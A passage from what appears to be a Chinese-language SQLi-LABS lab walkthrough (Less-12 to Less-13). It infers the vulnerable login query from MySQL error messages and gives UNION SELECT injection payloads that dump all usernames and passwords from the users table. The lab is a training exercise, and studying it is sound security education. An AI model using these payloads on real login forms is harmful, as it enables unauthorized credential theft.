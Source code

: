 + 获取所有users表中所有的数据（获取数据库中的所有表和所有列可参照Less-11）。

```sql
uname=")union+select+(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)--+&passwd=admin&submit=Submit
```

![image-20210926191535359](../../images/SQLi-LABS/image-20210926191535359.png)

## Less-13-双注入字符串带扭转

+ 使用单引号会触发如下错误信息：

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''a'') and password=('') LIMIT 0,1' at line 1
```

+ 我们可以猜测该SQL语句为：

```sql
select column1, column2, ... from users where username = ('$username') and password = ('$password') limit 0, 1;
```

+ 获取users表中的所有数据：

```sql
uname=')union+select+(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)--+&passwd=&submit=Submit
```

